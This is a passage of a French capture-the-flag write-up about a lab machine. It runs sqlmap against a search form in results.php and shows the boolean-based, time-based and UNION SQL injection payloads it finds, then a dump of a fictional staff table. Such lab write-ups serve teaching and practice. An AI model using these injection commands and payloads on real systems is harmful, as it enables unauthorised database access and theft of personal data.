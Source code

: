 En dehors des fichiers découverts et autres recommendations concernant les entêtes, c'est surtout l'injection SQL en aveugle dans `results.php` qui nous intéressera. Comme toujours on enchaine avec un `sqlmap` qui fait parfaitement le job :

```bash
python sqlmap.py -u http://192.168.56.140/results.php --data "search=mary"
```

Le scanner identifie la vulnérabilité et la version du backend :

```
sqlmap identified the following injection point(s) with a total of 65 HTTP(s) requests:
---
Parameter: search (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: search=mary' AND 5044=5044 AND 'lNyT'='lNyT

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: search=mary' AND (SELECT 9085 FROM (SELECT(SLEEP(5)))zJCo) AND 'XMzY'='XMzY

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: search=mary' UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x716a706a71,0x4d496f6b57426f645577576c5751727779467a5a484e6e4f4d4b5944456d696f4c6378484a6d4b75,0x71707a7871),NULL-- -
---
[12:02:01] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
```

## Monica777

On peut alors dumper les tables dans la joie et l'allégresse :

```
Database: Staff
Table: StaffDetails
[17 entries]
+----+----------------+-----------------------+---------------------+------------+-----------+-------------------------------+
| id | phone          | email                 | reg_date            | lastname   | firstname | position                      |
+----+----------------+-----------------------+---------------------+------------+-----------+-------------------------------+
| 1  | 46478415155456 | marym@example.com     | 2019-05-01 17:32:00 | Moe        | Mary      | CEO                           |
| 2  | 46457131654    | julied@example.com    | 2019-05-01 17:32:00 | Dooley     | Julie     | Human Resources               |
| 3  | 46415323       | fredf@example.com     | 2019-05-01 17:32:00 | Flintstone | Fred      | Systems Administrator         |
| 4  | 324643564      | barneyr@example.com   | 2019-05-01 17:32:00 | Rubble     | Barney    | Help Desk                     |
| 5  | 802438797      | tomc@example.com      | 2019-05-01 17:32:00 | Cat        | Tom       | Driver                        |
| 6  | 24342654756    | jerrym@example.com    | 2019-05-01 17:32:00 | Mouse      | Jerry     | Stores                        |
| 7  | 243457487      | wilmaf@example.com    | 2019-05-01 17:32:00 | Flintstone | Wilma     | Accounts                      |
| 8  | 90239724378    | bettyr@example.com    | 2019-05-01 17:32:00 | Rubble     | Betty     | Junior Accounts               |
| 9  | 189024789      | chandlerb@example.com | 2019-05-01 17:32:00 | Bing       | Chandler  | President - Sales             |
```